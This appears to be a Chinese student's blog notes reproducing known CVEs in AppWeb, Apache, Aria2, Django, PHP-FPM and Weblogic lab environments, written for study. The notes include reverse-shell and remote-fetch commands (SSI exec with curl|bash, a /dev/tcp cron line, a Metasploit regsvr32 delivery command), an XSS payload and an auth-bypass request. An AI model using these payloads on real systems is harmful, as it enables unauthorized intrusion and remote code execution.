




练习优先熟悉的框架。
AppWeb认证绕过漏洞（CVE-2018-8715）
相关介绍
AppWeb是嵌入式Web Server。
AppWeb可以进行认证配置，其认证方式包括以下三种：
- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证
其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。
漏洞复现
利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为admin。
抓到该页面的包后，将其构造为如下数据包：1
2
3
4
5
6
7
8GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
如图，我们没有传入密码字段，所以服务器出现了错误，直接返回了200，而且包含了一个session。
设置这个session到浏览器，即可正常访问需要认证的页面。（复现中这一步遇到了问题）
知识总结
整个过程还是很好理解，关键是数据包构造正确
关于cookie的设置：
服务器会返回我们set-cookie头，只需要将其zai浏览器中设置即可。但是Cookie Manager不会用啊。。
我的解决方法：
抓到首页的包后，直接在proxy 模块中修改数据包，再将其发送。这样浏览器就会接收相应的响应包，并设置好cookie。
Apache HTTPD 换行解析漏洞（CVE-2017-15715）
相关介绍
Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。
漏洞复现
这个漏洞已经在ACTF2019学习过了，参考笔记：
https://hackmd.io/MHyg6ypiQV2AjAeqHF5dyw#%E5%88%A9%E7%94%A8Apache%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2017-15715%EF%BC%89%E7%BB%95%E8%BF%87%E4%B8%8A%E4%BC%A0%E9%BB%91%E5%90%8D%E5%8D%95%E3%80%900a%E3%80%91
知识总结
- 题目中上传文件的同时，也POST一个name，它的值就是上传的文件的文件名。
肯定就要想到这个值就是用来在后台判断文件的！
相应的就是要在这个值后面加上%0a绕过。 - 需要在
$_POST['name']后面添加 %0a 。 - 需要注意的是，后台获取文件名时不能用
$_FILES['file']['name']，因为他会自动把换行去掉。将会利用不成功。 - 访问时需要加上%0a
Apache HTTPD 多后缀解析漏洞
相关介绍
Apache HTTPD 支持一个文件拥有多个后缀，并为不同后缀执行不同的指令。比如，如下配置文件：1
2AddType text/html .html
AddLanguage zh-CN .cn
其给.html后缀增加了media-type，值为text/html；给.cn后缀增加了语言，值为zh-CN。此时，如果用户请求文件index.cn.html，他将返回一个中文的html页面。
如果运维人员给.php后缀增加了处理器：1
AddHandler application/x-httpd-php .php
那么，在有多个后缀的情况下，只要一个文件含有.php后缀，即会被识别成PHP文件，没必要是最后一个后缀。利用这个特性，将会造成一个可以绕过上传白名单的解析漏洞。（本次漏洞环境已经按如上设置好了处理器）
漏洞复现
进入环境上传文件后，限制了文件后缀

http://your-ip/index.php中是一个白名单检查文件后缀的上传组件，上传完成后并未重命名。我们可以通过上传文件名为xxx.php.jpg或xxx.php.jpeg的文件，利用Apache解析漏洞进行getshell。
菜刀可以直接连接成功：
知识总结
题目的关键在于设置了相关的解析处理器。
在文件上传漏洞中，用的较多的还有.htaccess 文件。
htaccess是超文本访问（Hypertext Access）的缩写，是一个基于Apache的Web服务器使用的配置文件，用于控制它所在的目录以及该目录下的所有子目录。
很多时候，如果你已经安装了内容管理系统（CMS），比如Drupal，Joomla或者Wordpress，你可能会遇到.htaccess文件。 一般来说你不需要编辑它，但这个文件是你上传到Web服务器的文件之一。
.htaccess文件的主要功能包括使用密码保护文件夹，禁止或允许用户使用IP地址访问，禁止目录浏览，将用户自动重定向到另一个页面或目录，创建和使用自定义错误页面，改变具有特定扩展名的文件的使用方式，或者通过指定文件扩展名或特定文件作为主页。
学习资料：
htaccess文件的利用技巧
Apache SSI 远程命令执行漏洞
相关介绍
当目标服务器开启了SSI与CGI支持，我们就可以上传shtml文件，利用语法执行命令。
SSI：SSI（服务器端包含）是放置在HTML页面中的指令，并在提供页面时在服务器上进行评估。它们允许将动态生成的内容添加到现有HTML页面，而无需通过CGI程序或其他动态技术提供整个页面。
SSI exec命令。它在文档中插入CGI脚本或shell命令的输出。
使用方法：cmd后面跟你要执行的命令就可以了。<!--#exec cmd="" -->
漏洞复现
upload.php页面支持上传.shtml 文件，直接构造反弹shell的命令。<!--#exec cmd="curl 47.112.16.34|bash" -->
命名为a.shtml
成功上传：
在服务器上监听端口。访问a.shtml文件，可以看到浏览器一直处于请求状态，服务器也已将成功反弹shell。
知识总结
无
Aria2 任意文件写入漏洞
相关介绍
Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。
因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。
漏洞复现
打开yaaw，点击Settings按钮，填入运行aria2的目标域名：http://your-ip:6800/jsonrpc （默认端口为6800）：

通过写入一个crond任务来反弹shell
shell内容如下，注意使用linux生成：* * * * * bash -i > /dev/tcp/47.112.16.34/1337 0<&1 2>&1
需要注意crontab文件的格式，以及换行符必须是\n，且文件结尾需要有一个换行符。
可以使用如下命令来查看文件内容：
接着将crontab文件放到自己服务器上
然后点击Add，增加一个新的下载任务。在Dir的位置填写下载至的目录，File Name处填写文件名。
这时候，arai2会将恶意文件（我指定的URL）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell。
然而我还是没有反弹成功。。。
知识总结
crontab文件介绍
当我们要增加全局性的计划任务时，一种方式是直接修改/etc/crontab。但是，一般不建议这样做，/etc/cron.d目录就是为了解决这种问题而创建的。
cron执行时，也就是要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件
- 反弹shell新姿势——通过写入一个crond任务来反弹shell
Django debug page XSS漏洞（CVE-2017-12794）
相关介绍
Django发布的新版本1.11.5，修复了500页面中可能存在的一个XSS漏洞。
下面是用1.11.4和1.11.5进行比较：
git clone
https://github.com/django/django.git
cd django
git diff 1.11.4 1.11.5 django/views/debug.py

外部关闭了全局转义，然后在这两个地方增加了强制转义。那么，漏洞肯定是在这个位置触发的。
也就是将输出的内容全部进行了强制转义。
The above exception was the direct cause of the following exception:
一般是在出现数据库异常的时候，会抛出这样的错误语句。
做个简单的测试，在Django命令行下，我们创建一个username为phith0n的用户，然后再次创建一个username为phith0n的用户，则会抛出一个IntegrityError异常：
见上图，原因是触发了数据库的Unique异常。
为什么Django会引入这样一个异常机制？这是为了方便开发者进行SQL错误的调试，因为Django的模型最终是操作数据库，数据库中具体出现什么错误，是Django无法100%预测的。那么，为了方便开发者快速找到是哪个操作触发了数据库异常，就需要将这两个异常回溯栈关联到一块。
漏洞复现
P神的测试：发现在使用Postgres数据库并触发异常的时候，psycopg2会将字段名和字段值全部抛出。那么，如果字段值中包含我们可控的字符串，这个字符串其实就会被设置成cause，最后被显示在页面中。
流程：
- 用户注册页面，未检查用户名
- 注册一个用户名为
<script>alert(1)</script>的用户 - 再次注册一个用户名为
<script>alert(1)</script>的用户 - 触发duplicate key异常，导致XSS漏洞
可见，Postgres抛出的异常为
duplicate key value violates unique constraint "xss_user_username_key" DETAIL: Key (username)=(<script>alert(1)</script>) already exists.
这个异常被拼接进The above exception () was the direct cause of the following exception，最后触发XSS。
知识总结
- 关于哪个操作触发了数据库异常，需要两个异常回溯栈
- 两个异常都会拼接显示出来
- 没有合法输入检测，没有过滤输出
Django < 2.0.8 任意URL跳转漏洞（CVE-2018-14574）
相关介绍
Django默认配置下，如果匹配上的URL路由中最后一位是/，而用户访问的时候没加/，Django默认会跳转到带/的请求中。
（由配置项中的django.middleware.common.CommonMiddleware、APPEND_SLASH来决定）。
漏洞复现
该漏洞利用条件是目标URLCONF中存在能匹配上//example.com的规则。
在path开头为//example.com的情况下，Django没做处理，导致浏览器认为目的地址是绝对路径，最终造成任意URL跳转漏洞。
docker 又出问题了，复现不了了。
偷图：
知识总结
感觉是个无关痛痒的漏洞。
Django JSONField/HStoreField SQL注入漏洞（CVE-2019-14234）
相关介绍
首看P神博客：https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html
再贴一张图：
漏洞复现
环境搭建好后，Django后台的模型Collection的管理页面http://your-ip:port/admin/vuln/collection/
其中detail是模型Collection中的JSONField
在GET参数中构造detail__a'b=123提交
可以看到报错语句，说明这里存在SQL注入。
exp姿势：
https://nosec.org/home/detail/2831.html
https://xz.aliyun.com/t/5896
exp没看太懂，留个坑。。
知识总结
- Postgresql支持的数据类型更加丰富，其对JSON格式数据的支持也让这个关系型数据库拥有了NoSQL的一些特点。
在Django中也支持了Postgresql的数据类型：- JSONField
- ArrayField
- HStoreField
- 该漏洞需要开发者使用了
JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。Django自带的后台应用Django-Admin中就存在这样的写法。 - exp好好学习
PHP-FPM Fastcgi 未授权访问漏洞
相关介绍
大二的时候在web组组会的时候，学长就要我们看会这个漏洞。奈何当初静不下心来，今天好好搞懂，总结一下。（学习链接：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html ）
基础知识
- Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。
- fastcgi协议是服务器中间件和某个语言后端进行数据交换的协议。
- Fastcgi协议由多个record组成。
record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。 - FPM是一个fastcgi协议解析器。
Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。
举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
}
这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。
Nginx（IIS7）解析漏洞
该漏洞现象是，在用户访问http://127.0.0.1/favicon.ico/.php时，访问到的文件是favicon.ico，但却按照.php后缀解析了。
用户请求http://127.0.0.1/favicon.ico/.php，nginx将会发送如下环境变量到fpm里：1
2
3
4
5
6
7
8{
...
'SCRIPT_FILENAME': '/var/www/html/favicon.ico/.php',
'SCRIPT_NAME': '/favicon.ico/.php',
'REQUEST_URI': '/favicon.ico/.php',
'DOCUMENT_ROOT': '/var/www/html',
...
}
正常来说，SCRIPT_FILENAME的值是一个不存在的文件/var/www/html/favicon.ico/.php，是PHP设置中的一个选项fix_pathinfo导致了这个漏洞。PHP为了支持Path Info模式而创造了fix_pathinfo，在这个选项被打开的情况下，fpm会判断SCRIPT_FILENAME是否存在，如果不存在则去掉最后一个/及以后的所有内容，再次判断文件是否存在，往次循环，直到文件存在。
所以，第一次fpm发现/var/www/html/favicon.ico/.php不存在，则去掉/.php，再判断/var/www/html/favicon.ico是否存在。显然这个文件是存在的，于是被作为PHP文件执行，导致解析漏洞。
正确的解决方法有两种，一是在Nginx端使用fastcgi_split_path_info将path info信息去除后，用tryfiles判断文件是否存在；二是借助PHP-FPM的security.limit_extensions配置项，避免其他后缀文件被解析。
漏洞复现
- PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。
SCRIPT_FILENAME的值格外重要了。因为fpm是根据这个值来执行php文件的，如果这个文件不存在，fpm会直接返回404.- 如果想利用PHP-FPM的未授权访问漏洞，首先就得找到一个已存在的PHP文件。
使用源安装php后，默认源安装后可能存在的php文件，比如/usr/local/lib/php/PEAR.php。 auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件。auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。- 设置
auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。 - 还需要开启远程文件包含选项
allow_url_include。 PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项。PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）- 最后传入如下环境变量：
1 | { |
直接使用exp进行利用：（exp地址：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75 ）
帮助选项：

知识总结
一个有趣的漏洞，原理P神讲得太透彻了，exp也很好用。
好好学习，天天向上。
Weblogic < 10.3.6 ‘wls-wsat’ XMLDecoder 反序列化漏洞（CVE-2017-10271）
weblogic还不是很熟悉，这几天把weblogic的洞都过一遍，工具一把梭。
相关介绍
Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
漏洞复现
P神的docker搭建好后没有反应，用的春哥的docker
console控制台
直接上工具：
用的太舒服了
知识总结
java的洞实在是太多了
Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）
Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。
相关介绍
Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。
漏洞复现
服务器重装了docker和docker-compose。
访问http://47.103.117.169:22312/console，环境需要配置，等待即可。
直接使用工具：
- 验证有无该漏洞
这一步失败了，脚本执行不成功。不管它
- 验证有无该漏洞
- 上传shell
k8gege提供了两种方法：.NET的GUI界面和命令行界面（偏爱GUI）
- 上传shell
- getshell
这里有点问题，服务端的问题。
这个shell上传之后，执行一次命令就会失效，所以采用反弹shell。
命令执行使用：
K8飞刀
脚本：
- getshell
获得meterpreter
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.91.148
lhost => 192.168.91.148
msf5 exploit(multi/script/web_delivery) > set lport 2333
lport => 2333
msf5 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.91.148:2333
[*] Using URL: http://0.0.0.0:8080/ei8mHaBXvn4n
[*] Local IP: http://192.168.91.148:8080/ei8mHaBXvn4n
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.91.148:8080/ei8mHaBXvn4n.sct scrobj.dll然后目标cmd执行：
regsvr32 /s /n /u /i:http://192.168.91.148:8080/ei8mHaBXvn4n.sct scrobj.dllsessions -i 1进入meterpreter即可
注意：以上是针对Windows系统。lhostlport设置为自己的IP和port，由于题目是放在公网上的，而我的另一台攻击服务器没有安装msf，故无法复现。
知识总结
真好玩
Weblogic 任意文件上传漏洞（CVE-2018-2894）
相关介绍
Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。
利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。
漏洞复现
这个漏洞环境真的是，sad ._.
漏洞的利用需要登录到控制台界面，查看weblogic登陆密码如下图：

登录后台页面，点击base_domain的配置，在“高级”中开启“启用 Web 服务测试页”选项：
访问http://47.103.117.169:22313/ws_utc/config.do，设置Work Home Dir为/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css。要将目录设置为ws_utc应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。
然后点击安全 -> 增加，然后上传webshell
图略
上传后，查看返回的数据包，返回的XML中有时间戳
然后访问http://47.103.117.169:22313/ws_utc/css/config/keystore/[时间戳]_[文件名]，即可执行webshell
无图sad
jsp马真的是。。
上传了好几个都不行，马中包含中文都编译不了。。
放弃，不像tomcat后台那个洞一样舒服！
知识总结
玩得不开心，没有总结。
Weblogic SSRF漏洞
相关介绍
Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。
漏洞复现
根据P神的漏洞环境，直接访问http://47.103.117.169:22314/uddiexplorer/SearchPublicRegistries.jsp，利用burp抓包修改某些参数，即可达到ssrf的目的。
关键参数：operator
探测一个开放的端口
当修改参数为一个不存在的端口时，返回的响应数据不同，或者迟迟没有响应。
通过错误的不同，即可探测内网状态。
注入HTTP头，利用Redis反弹shell
Weblogic的SSRF有一个比较大的特点，其虽然是一个”GET”请求，但是我们可以通过传入%0a%0d来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
redis服务的默认端口为6379
在docker的内网中已经安装好redis服务，docker0的内网IP为172.18.0.1


评论加载中